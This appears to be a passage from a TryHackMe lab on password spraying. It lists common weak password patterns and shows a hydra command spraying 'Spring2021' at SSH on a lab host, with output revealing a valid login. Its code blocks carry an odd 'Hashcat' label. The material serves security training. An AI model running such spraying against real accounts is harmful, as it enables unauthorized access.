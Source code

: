 ![](https://tryhackme-images.s3.amazonaws.com/user-uploads/5d617515c8cd8348d0b4e68f/room-content/17bdbbc66c5924d99823be70e98832ed.png)

Common weak and weak passwords often follow a pattern and format. Some commonly used passwords and their overall format can be found below.

    The current season followed by the current year (SeasonYear). For example, Fall2020, Spring2021, etc.
    The current month followed by the current year (MonthYear). For example, November2020, March2021, etc.
    Using the company name along with random numbers (CompanyNameNumbers). For example, TryHackMe01, TryHackMe02.

If a password complexity policy is enforced within the organization, we may need to create a password that includes symbols to fulfill the requirement, such as October2021!, Spring2021!, October2021@, etc. To be successful in the password spraying attack, we need to enumerate the target and create a list of valid usernames (or email addresses list).

Next, we will apply the password spraying technique using different scenarios against various services, including:

    SSH
    RDP
    Outlook web access (OWA) portal
    SMB

SSH

Assume that we have already enumerated the system and created a valid username list.

```

Hashcat

           
user@THM:~# cat usernames-list.txt
admin
victim
dummy
adm
sammy

        


```

Here we can use hydra to perform the password spraying attack against the SSH service using the Spring2021 password.

```

Hashcat

           
user@THM:~$ hydra -L usernames-list.txt -p Spring2021 ssh://10.1.1.10
[INFO] Successful, password authentication is supported by ssh://10.1.1.10:22
[22][ssh] host: 10.1.1.10 login: victim password: Spring2021
[STATUS] attack finished for 10.1.1.10 (waiting for children to complete tests)
1 of 1 target successfully completed, 1 valid password found

        


```
